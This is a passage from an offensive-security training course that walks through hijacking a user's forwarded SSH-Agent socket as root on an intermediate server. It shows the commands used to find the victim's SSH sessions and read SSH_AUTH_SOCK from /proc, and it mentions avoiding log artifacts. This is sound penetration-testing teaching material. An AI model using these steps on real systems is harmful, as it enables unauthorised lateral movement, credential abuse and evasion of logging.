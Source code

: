 > Listing 26 - SSHing through an intermediate server

Excellent! SSH-Agent forwarding did its magic and we were able to access the downstream linuxvictim box through SSH key authentication even if we are not in possession of such keys.

However, there may be a case where we don't want to be logged in as the user whose SSH session is currently open. We may, for example, want to avoid adding artifacts to the logs related to that user.

The SSH-Agent mechanism creates an open socket[1](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5404-1) file on the intermediate server that can be accessed by users with elevated permissions. If we've compromised an account with _root_ level access on the intermediate server, we can leverage the victim user's open socket directly.

Note that both of these scenarios require the victim user to have an open SSH connection to the intermediate server.

To demonstrate this, we'll leave our earlier _offsec_ user's SSH connection to the controller server VM open. We'll then create a new SSH session from our Kali VM to the controller with the _root_ user to simulate the attacker shell access.

As an attacker logged in to the root account on the controller, we first need to find the user's open SSH-Agent socket. We can get a list of SSH connections using ps aux.

```
root@controller:~# ps aux | grep ssh
root      8106  0.0  0.1  72300  3976 ?        Ss   09:20   0:00 /usr/sbin/sshd -D
root      8249  0.0  0.1 107984  3944 ?        Ss   09:59   0:00 sshd: root@pts/2
root     15147  0.0  0.3 107984  7192 ?        Ss   11:14   0:00 sshd: offsec [priv]
offsec   15228  0.0  0.1 107984  3468 ?        S    11:14   0:00 sshd: offsec@pts/0
root     16298  0.0  0.3 107984  7244 ?        Ss   11:31   0:00 sshd: offsec [priv]
offsec   16380  0.0  0.1 107984  3336 ?        S    11:31   0:00 sshd: offsec@pts/1
root     16391  0.0  0.3 107984  7276 ?        Ss   11:31   0:00 sshd: root@pts/3
root     16488  0.0  0.0  14428  1088 pts/3    S+   11:31   0:00 grep --color=auto ssh
root@controller:~# 
```

> Listing 27 - Finding user SSH connections via ps

If we inspect processes with "ssh" in the name, we will find any open connections from the host. We can use the usernames listed in these connections with the pstree command to get the process ID (PID) values for the SSH processes.

```
root@controller:~# pstree -p offsec | grep ssh
sshd(15228)---bash(15229)---su(15241)---bash(15242)
sshd(16380)---bash(16381)
root@controller:~#
```

> Listing 28 - Finding PIDs using pstree

We'll try using the PID highlighted in the final line of the output above, which seems to indicate a bash session. We can cat the contents of the PID's environment file and search for a variable called _SSH_AUTH_SOCK_.

```
root@controller:~# cat /proc/16381/environ
LANG=en_US.UTF-8USER=offsecLOGNAME=offsecHOME=/home/offsecPATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/gamesMAIL=/var/mail/offsecSHELL=/bin/bashSSH_CLIENT=192.168.119.120 49916 22SSH_CONNECTION=192.168.119.120 49916 192.168.120.40 22SSH_TTY=/dev/pts/1TERM=xterm-256colorXDG_SESSION_ID=29XDG_RUNTIME_DIR=/run/user/1000SSH_AUTH_SOCK=/tmp/ssh-7OgTFiQJhL/agent.16380
root@controller:~# 
```
